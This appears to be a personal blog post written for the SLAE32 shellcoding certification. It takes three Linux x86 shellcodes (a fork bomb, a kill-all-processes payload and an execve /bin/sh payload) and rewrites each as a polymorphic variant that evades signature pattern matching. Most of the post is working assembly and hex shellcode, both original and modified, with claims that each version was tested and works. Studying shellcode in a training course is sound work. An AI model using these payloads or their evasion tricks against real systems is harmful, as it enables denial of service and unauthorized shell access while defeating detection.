 ```yaml
---
layout: single
title: Polymorphic Shellcodes- SLAE32 Sixth Exam Assignment
date: 2020-4-07
classes: wide
header:
  teaser: /assets/images/polymorph.jpg
tags:
  -SLAE
--- 
```


## Introduction
Hello Everyone!
This blog post is dedicated to Assignment 6 of the SLAE32 Exam, which is to create 3 different polymorphic shellcodes from shell-storm.


<p align="center"> 
<img src="https://raw.githubusercontent.com/NagliNagli/naglinagli.github.io/master/images/polymorph.jpg">
</p>

## Assignment 6 - Creating polymorphic shellcodes from Shell-Storm


There are 2 main instructions provided to us in this assignment:
- [ ] Pick 3 shellcode samples from Shell-Storm and create polymorphic versions of them to beat pattern matching
- [ ] The polymorphic version cannot be larger than 150% of the existing shellcode

The 3 payloads which i have decided to focus on are:

- [ ] x86/forkbomb
- [ ] x86/killps
- [ ] x86/execve_bin/sh 

## forkbomb Shellcode

In computing, a fork bomb is a denial-of-service attack wherein a process continually replicates itself to deplete available system resources, slowing down or crashing the system due to resource starvation.

![forkbomb](/images/forkbomb.png)

The original shellcode length is 7 bytes, and is presented below:

```c
"\x6a\x02\x58\xcd\x80\xeb\xf9"
```

The original forkbomb.nasm code:

```c
/* By Kris Katterjohn 8/29/2006
 *
 * 7 byte shellcode for a forkbomb
 *
 *
 *
 * section .text
 *
 *      global _start
 *
 * _start:
 *      push byte 2
 *      pop eax
 *      int 0x80
 *      jmp short _start
 */
```

I have decided to change the code to the following:

```c
section .text

    global _start

_start:
	xor eax, eax
	inc eax
	inc eax
        push eax
   	pop eax
      	int 0x80
        jmp short _start
```

Now , i have to check my new shellcode length, and to see that i didn't exceed the req's of 150% maximum (which is >=11)

The new shellcode:
```c
\x31\xc0\x40\x40\x50\x58\xcd\x80\xeb\xf6
```

Which is as we can see 10 bytes long, now let's check if the fork bomb still work's properly.

![polyfork](/images/polyfork.png)

And it is indeed working! we can see how the CPU is being flooded to 100% usage!

## killps Shellcode

The following shellcode will kill all running process within the system.

The original shellcode length is 11 bytes, and is presented below:

```c
 "\x31\xc0\xb0\x25\x6a\xff\x5b\xb1\x09\xcd\x80" 
```

The original killps.nasm code:

```c
Title  : kill all running process 
Name   : 11 bytes sys_kill(-1,9) x86 linux shellcode
Date   : may, 31 2010
Author : gunslinger_
Web    : devilzc0de.com
blog   : gunslingerc0de.wordpress.com
tested on : ubuntu linux
*/
#include <stdio.h>

char *killer=
 "\x31\xc0"                    /* xor    %eax,%eax */
 "\xb0\x25"                    /* mov    $0x25,%al */
 "\x6a\xff"                    /* push   $0xffffffff */
 "\x5b"                        /* pop    %ebx */
 "\xb1\x09"                    /* mov    $0x9,%cl */
 "\xcd\x80"                    /* int    $0x80 */
```

I have decided to change the code to the following:

```c
section .text

    global _start

_start:
	sub eax, eax
	mov al, 0x23
	inc al
	inc al
	push 0xffffffff
	pop ebx
	mov cl, 0x9
	int 0x80
```

Now , i have to check my new shellcode length, and to see that i didn't exceed the req's of 150% maximum (which is >=17)

The new shellcode:
```c
"\x29\xc0\xb0\x23\xfe\xc0\xfe\xc0\x6a\xff\x5b\xb1\x09\xcd\x80"
```

Which is as we can see 15 bytes long, now let's check if the killps shellcode still work's properly.

![killps](/images/killps.gif)

And it is indeed working! we can see how we are being kicked out frm the system

## execve /bin/sh

The following shellcode will execbute /bin/sh.

The original shellcode length is 23 bytes, and is presented below:

```c
 ""\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"; 
```

The original execve.nasm code:

```c
xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80
```

I have decided to change the code to the following:

```c
global _start

section .text

_start:
	sub eax, eax
	push eax
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	inc eax
	dec eax
	push eax
	push ebx
	mov ecx, esp
	mov al, 0xa
	inc al
	int 0x80
```

Now , i have to check my new shellcode length, and to see that i didn't exceed the req's of 150% maximum (which is >=17)

The new shellcode:
```c
""\x29\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x40\x48\x50\x53\x89\xe1\xb0\x0a\xfe\xc0\xcd\x80""
```

Which is as we can see 27 bytes long, now let's check if the execve shellcode still work's properly.

![27execve](/images/27execve.png)

And it is indeed working! we can see how we are executing the /bin/sh!

And that's it for the sixth assignment!

## References

* forkbomb explanation - 
* forkbomb - <https://en.wikipedia.org/wiki/Fork_bomb>
* killps - <http://shell-storm.org/shellcode/files/shellcode-626.php>
* execve_bin/sh - <http://shell-storm.org/shellcode/files/shellcode-827.php>

## Wrap-Up
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification

<https://www.pentesteracademy.com/course?id=3>

Student ID: SLAE - 1543

All the source code which i have used throughout the assignment is available here: <https://github.com/NagliNagli/SLAE/tree/master/Polymorphic>

Cheers,
Gal.
